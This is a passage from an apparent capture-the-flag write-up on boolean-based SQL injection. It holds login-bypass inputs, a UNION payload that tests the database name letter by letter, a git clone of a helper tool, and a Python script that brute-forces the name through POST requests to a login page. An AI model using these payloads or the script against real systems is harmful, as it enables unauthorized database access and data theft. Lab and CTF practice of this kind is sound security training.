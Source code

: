 ```
Username: kitty' -- - 
Password: kitty' -- - 
```

<figure><img src="../../.gitbook/assets/image (968).png" alt=""><figcaption></figcaption></figure>



## Retrieving database name from boolean sqli <a href="#ee3c" id="ee3c"></a>

So, the plan is to know the name of the database. However, manual attempts will be terribly time-consuming, so I decided to practice scripting. After some time spent trying different payloads, this one worked:

**Statement**

```
' UNION SELECT 1,2,3,4 WHERE database() LIKE BINARY 'a%' -- -
```



Was able to get the database name using this script

**Kali**

```
git clone https://github.com/Sonat55/Boolean-Based-SQLI-attacks-helper---for-CTF.git
cd Boolean-Based-SQLI-attacks-helper---for-CTF/
```

**script.py**

```
import sys
import requests

def sqli(ip):
    symbols = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_-/:$^ '
    tmp = ""

    while True:
        for i in symbols:
            post= {"username":f"' UNION SELECT 1,2,3,4 WHERE database() LIKE BINARY '{tmp+i}%' -- -","password":"doesntmatter"} #u can change this for other prposes
            req = requests.post(f"http://{ip}/index.php", data=post,allow_redirects=False) #address can also be chnaged 
            status_code=req.status_code
            print(f"{i}", end='\r')
            if status_code == 302:
                tmp += i
                print(tmp)
```